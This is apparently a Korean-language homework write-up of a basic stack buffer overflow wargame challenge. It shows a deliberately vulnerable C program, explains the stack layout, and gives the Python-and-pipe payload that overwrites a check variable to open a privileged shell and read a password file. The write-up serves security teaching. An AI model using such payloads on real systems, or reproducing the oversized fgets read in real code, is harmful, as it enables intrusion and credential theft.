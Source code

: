 ## Week4_HW_BofBasic

* Source code
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
<hr>

### explanation

* 변수가 var -> check -> buf 순으로 선언되었기 때문에 
* 위 코드에서 스택의 구조는 아래와 같다.


```<pre>
[      buf[40]      ]
[ check(0x04030201) ]
[        var        ]
[        SFP        ]
[        RET        ]

```

* fgets함수로 45바이트의 문자를 받을 수 있기 때문에 
check변수를 원하는 값(0xdeadbeef)으로 덮을 수 있다.

* buf에 40byte를 채우고 check에 0xdeadbeef를 리틀엔디언 방식을 넣어주면 쉘이 실행될 것이다.
* 위의 과정을 수행할 수 있는 페이로드를 짜면 
`(python -c 'print "A"*40 + "\xef\xbe\xad\xde"') | ./ch13`
이다. 
    * "|" 기호는 "파이프라인"이라는 기호로 한명령어의 출력을 다른 명령어의 입력으로 연결하는데 사용된다.
    * 따라서 파이프라인 왼쪽에 있는 입력값을 './ch13'의 입력을 전달한다.
* 그러나 이대로 실행하면 "shell closed! Bye" 라는 문구가 출력되면서 쉘이 종료된다.
* 이를 방지하기 위해 cat과 같이 shell 실행 후 입력을 받아주는 명령어를 추가하여 shell이 종료되지 않고 유지되게 해준다.
* 명령어를 구분하는 구분자로 ";" 가 사용되므로 
`(python -c 'print "A"*40 + "\xef\xbe\xad\xde"' ; cat) | ./ch13`
위의 명령어가 최종 페이로드코드가 된다.

* 위 페이로드를 넣으면 `"Yeah dude! You win!\nOpening your shell...\n"` 라는 문구가 나오고
* `ls -a` 명령어를 통해 .passwd파일을 확인할 수 있고 `cat` 명령어를 통해 password를 취할 수 있다.





